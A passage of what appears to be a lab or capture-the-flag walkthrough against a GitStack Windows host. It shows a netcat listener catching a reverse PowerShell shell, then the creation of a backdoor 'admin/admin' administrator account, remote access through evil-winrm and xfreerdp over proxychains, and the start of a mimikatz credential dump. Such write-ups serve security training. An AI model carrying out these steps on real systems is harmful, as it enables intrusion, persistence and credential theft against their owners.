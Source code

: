 ```bash
nc -nlvp 1339                                            1 ⨯
listening on [any] 1339 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 33088
PS C:\GitStack\gitphp>
```

### Stabilisation & Post exploitation

Create a windows account in order to access through RDP or WinRM

```batch
PS C:\GitStack\gitphp> net user admin admin /add
The command completed successfully.

PS C:\GitStack\gitphp> net localgroup Administrators admin /add
The command completed successfully.

PS C:\GitStack\gitphp> net localgroup "Remote Management Users" admin /add
The command completed successfully.

PS C:\GitStack\gitphp> net user admin
User name                    admin
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            03/10/2021 18:33:21
Password expires             Never
Password changeable          03/10/2021 18:33:21
Password required            Yes
User may change password     Yes
```

Access via WinRM

```bash
proxychains -q evil-winrm -u admin -p admin -i 10.200.186.150
```

Access via RDP

```bash
proxychains -q xfreerdp /v:10.200.186.150 /u:admin /p:admin /drive:.,kali 
```

#### Dump passwords

We can dump passwords using mimikatz as admin

```batch
C:\Windows\system32>\\tsclient\kali\mimikatz\x64\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # token::elevate
Token Id  : 0
User name :
```
